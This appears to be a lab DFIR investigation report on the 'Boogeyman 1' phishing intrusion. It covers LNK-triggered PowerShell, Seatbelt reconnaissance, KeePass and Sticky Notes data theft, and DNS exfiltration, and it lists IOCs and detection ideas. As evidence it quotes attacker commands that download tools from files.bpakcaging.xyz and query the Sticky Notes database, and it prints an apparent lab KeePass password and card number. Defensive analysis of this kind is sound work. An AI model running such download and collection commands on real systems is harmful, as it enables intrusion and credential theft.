





# 🕵️‍♂️ Boogeyman 1 – DFIR Investigation Report (Initial Threat)

---

## 📌 Executive Summary
Quick Logistics LLC experienced a targeted phishing attack conducted by the **Boogeyman threat group**, leading to full compromise of an employee workstation.

The attacker leveraged a malicious LNK file to execute obfuscated PowerShell commands, performed system reconnaissance, accessed sensitive files, and exfiltrated data using DNS tunneling techniques.

---

## 📋 Scenario Overview
The attack began with a phishing email impersonating a trusted partner (**B Packaging Inc**) sent to the accounting department.

The victim (Julianne) opened a password-protected archive containing a malicious shortcut file (`.lnk`), which triggered the execution of a hidden PowerShell payload.

---

## ⚠️ Initial Access
* **Technique:** Phishing Email (T1566.001)
* **Malicious Attachment:** `Invoice_20230103.lnk`
* **Delivery Method:** Password-protected ZIP (`Invoice2023!`)
* **Obfuscation:** Base64-encoded PowerShell command



---

## 🔍 Investigation & Technical Analysis

### 1️⃣ Phishing & Payload Execution
* **Sender:** `agriffin@bpakcaging.xyz`

* **Email service used:** `elasticemail` (evasion technique)

* **Payload execution:** via LNK file triggered hidden PowerShell

---

### 2️⃣ Endpoint Activity (PowerShell Analysis)
Analysis of PowerShell logs revealed:

* **C2 Communication:**
  * `cdn.bpakcaging.xyz`
  * `files.bpakcaging.xyz`

* **Reconnaissance Tool:**
  * `seatbelt.exe`

### 📂 Data Collection & Extraction
The attacker accessed and extracted sensitive data from multiple sources:

* **KeePass Database:**
  * File: `protected_data.kdbx`

* **Sticky Notes Database:**
  * File: `plum.sqlite`
  * Tool used: `sq3.exe` (SQLite database reader)

#### 🔎 Evidence
```powershell
.\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100"

### 📥 Tooling Download

The attacker downloaded additional tools from a remote server:

- `sq3.exe` → Used for SQLite database extraction  
- `sb.exe` → Reconnaissance tool (Seatbelt)

#### 🔎 Evidence

```powershell
iwr [http://files.bpakcaging.xyz/sq3.exe] -outfile sq3.exe
iwr [http://files.bpakcaging.xyz/sb.exe] -outfile sb.exe



---

### 3️⃣ Data Exfiltration

* Technique: **DNS Tunneling (T1048)**
* Tool Used: `nslookup`
* Purpose: Covert data exfiltration

---

### 4️⃣ Data Exposure

Recovered sensitive data included:

* KeePass Master Password:

  * `%p9^3!IL^Mz47E2GaT^y`

   

* Credit Card Number:

  * `4024007128269551`

---

## ⏱️ Attack Timeline

1. **Initial Access** → Phishing email delivered
2. **Execution** → LNK file triggers PowerShell payload
3. **Persistence / Execution** → Obfuscated commands executed
4. **Discovery** → Enumeration using `seatbelt`
5. **Collection** → Sensitive files identified
6. **Exfiltration** → DNS tunneling via `nslookup`
7. **Impact** → Credential and financial data exposed

---

## 🚨 Indicators of Compromise (IOCs)

### 📧 Email Indicators

* `agriffin@bpakcaging.xyz`

### 🌐 Domains

* `cdn.bpakcaging.xyz`
* `files.bpakcaging.xyz`

### 📁 Files

* `Invoice_20230103.lnk`
* `protected_data.kdbx`
* `seatbelt.exe`
* `sq3.exe`

### 🧪 Techniques

* LNK Execution
* PowerShell Obfuscation
* DNS Exfiltration

---

## 🛡️ Detection Opportunities

* Monitor execution of `.lnk` files from archives
* Detect Base64-encoded PowerShell commands
* Alert on abnormal DNS query patterns (high volume / encoded data)
* Identify usage of tools like `seatbelt.exe`

---

## 🏁 Conclusion

The Boogeyman group successfully compromised the victim through a phishing attack and executed a multi-stage intrusion involving obfuscated PowerShell, system reconnaissance, and covert data exfiltration via DNS tunneling.

The attack demonstrates a blend of social engineering and living-off-the-land techniques, making detection more challenging without proper monitoring and correlation.

---
